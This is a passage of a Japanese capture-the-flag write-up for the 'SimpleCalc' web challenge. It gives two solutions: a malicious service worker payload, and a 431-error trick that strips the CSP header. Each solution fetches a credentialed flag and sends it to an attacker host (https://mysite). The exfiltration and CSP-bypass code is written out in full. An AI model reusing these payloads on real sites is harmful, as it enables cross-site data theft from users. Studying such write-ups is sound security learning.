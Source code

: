 ```js
self.addEventListener("fetch", (e) => {
    if (e.request.url.endsWith("/test")){
        let res = "<script>fetch('/flag',{headers:{'X-FLAG':'a'},credentials:'include'}).then(res=>res.text()).then(flag=>location='https://mysite/?q='+flag)</script>";
        e.respondWith(new Response(res, {headers:{'Content-Type':'text/html'}}));
    }
});
document = {}
document.getElementById = () => {return {innerText:""}}
```

- 実際のペイロード
  - URLにそのまま上のスクリプトを入れると上手く動かないので、URLエンコードしている。Base64でも良さそう？

```js
var src = 'self%2EaddEventListener%28%22fetch%22%2C%20%28e%29%20%3D%3E%20%7B%0A%20%20%20%20if%20%28e%2Erequest%2Eurl%2EendsWith%28%22%2Fjs%2Ftest%22%29%29%7B%0A%20%20%20%20%20%20%20%20let%20res%20%3D%20%22%3Cscript%3Efetch%28%27%2Fflag%27%2C%7Bheaders%3A%7B%27X%2DFLAG%27%3A%27a%27%7D%2Ccredentials%3A%27include%27%7D%29%2Ethen%28res%3D%3Eres%2Etext%28%29%29%2Ethen%28flag%3D%3Elocation%3D%27https%3A%2F%2Fmysite%2F%3Fq%3D%27%2Bflag%29%3C%2Fscript%3E%22%3B%0A%20%20%20%20%20%20%20%20e%2ErespondWith%28new%20Response%28res%2C%20%7Bheaders%3A%7B%27Content%2DType%27%3A%27text%2Fhtml%27%7D%7D%29%29%3B%0A%20%20%20%20%7D%0A%7D%29%3B%0Adocument%20%3D%20%7B%7D%0Adocument%2EgetElementById%20%3D%20%28%29%20%3D%3E%20%7Breturn%20%7BinnerText%3A%22%22%7D%7D';
var sw = `/js/index.js?expr=${src}`;
navigator.serviceWorker.register(sw);
setInterval(()=>{location='/js/test'},2000);
```

### [web/SimpleCalc] 解法2

431エラーを出して、CSPヘッダを出力させなくする方法。  
431エラーである必要は無いと思うが、今回の問題ではこれが使われていた。  

- 手順

1. iframeのsrcにパラメータ数が上限を超えたリクエストを送り431エラーを出す。
1. iframe経由でfetchが使えるので、`X-FLAG`ヘッダをつけたリクエストを送信する。
1. レスポンスの内容を自身のサイトに飛ばす。

```js
var f=document.createElement('iframe');
f.src = `http://localhost:3000/js/index.js?q=${'a'.repeat(20000)}`;
document.body.appendChild(f);
f.onload = () => {
    f.contentWindow.fetch('/flag', { headers: {'X-FLAG': 'a'}, credentials:'include' })
        .then(res => res.text())
        .then(flag => location='https://mysite/?q='+flag)
}
```

- 所感

復習がてらService Worker調べてみたが少しだけ使い方が分かったので良かった。  
あと最近はWebhook.siteを使う人が多い？
